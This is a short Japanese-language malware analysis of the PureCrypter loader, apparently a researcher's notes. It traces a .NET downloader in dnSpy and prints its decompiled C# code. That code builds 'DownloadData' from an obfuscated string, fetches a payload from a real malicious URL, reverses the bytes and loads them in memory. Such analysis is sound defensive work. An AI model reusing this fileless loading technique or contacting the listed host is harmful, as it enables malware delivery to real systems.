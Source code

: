 # PureCrypter
https://www.zscaler.com/jp/blogs/security-research/technical-analysis-purecrypter
- 4a88f9feaed04917f369fe5089f5c09f791bf1214673f6313196188e98093d74

7-Zipで展開すると、63342221.BATが確認できる。  
このバッチファイルが.NETでビルドされたEXEのダウンローダ（Ygjklu.exe）。

## Ygjklu.exe
dnSpyで確認すると、WindowsFormsApp37.StubPolicyRecord内にMain()が確認できる。  
Main()ではExporterPolicyAttributeクラスのインスタンスを生成し、以下の関数が呼ばれる。
- InitProcess()
- CollectProcess()
- SortProcess()
- ResolveProcess()

CollectProcess()内でPopProcess()が呼ばれる。
```cs
internal byte[] PopProcess()
{
  return (byte[])typeof(WebClient).GetMethod(ExporterPolicyAttribute.ListCallback("DzveDowDzvenlDzveoadDDzveataDzve", "Dzve", ""), new Type[] { typeof(string) }).Invoke(new WebClient(), new object[] { "http://gbtak.ir/wp-content/Ygjklu.log" });
}
```
ExporterPolicyAttribute.ListCallback()では第一引数の文字列に対して、第二引数の文字列を第三引数の文字列に置き換える。  
このため、GetMethodの引数は`DownloadData`となり、`http://gbtak.ir/wp-content/Ygjklu.log`から次のファイルがダウンロードされ、array変数に格納される。

その後、CollectProcess()ではExporterPolicyAttribute.DisableCallback(array, 0, array.Length)が呼ばれ、内部でArray.Reverse()が呼ばれるため、arrayのバイト列が反転される。

そして、ExporterPolicyAttribute.FindCallback(array)が呼ばれ、内部でAssembly.Load()が呼ばれるため、arrayがメモリ上にロードされる。
